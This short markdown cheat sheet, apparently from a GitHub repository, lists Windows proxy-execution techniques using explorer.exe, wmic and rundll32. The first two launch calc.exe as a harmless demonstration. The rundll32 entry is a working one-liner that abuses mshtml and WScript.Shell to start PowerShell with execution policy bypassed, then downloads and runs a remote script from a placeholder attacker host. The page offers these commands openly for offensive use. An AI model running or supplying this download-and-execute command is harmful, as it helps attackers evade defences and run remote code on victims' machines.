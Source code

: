 ### Tools: File explorer, wmic, rundll32

## FILE EXPLORER

#### 1) explorer.exe /root,"C:\windows\system32\calc.exe

## WMIC

#### 1) wmic.exe process call create calc

## RUNDLL32

#### 1) rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";document.write();new%20ActiveXobject("WScript.Shell").Run("Powershell -nop -exec bypass -c IEX(New-ObjectNet.WebClient).DownloadString('http://ATTACK_IP/script.ps1');");
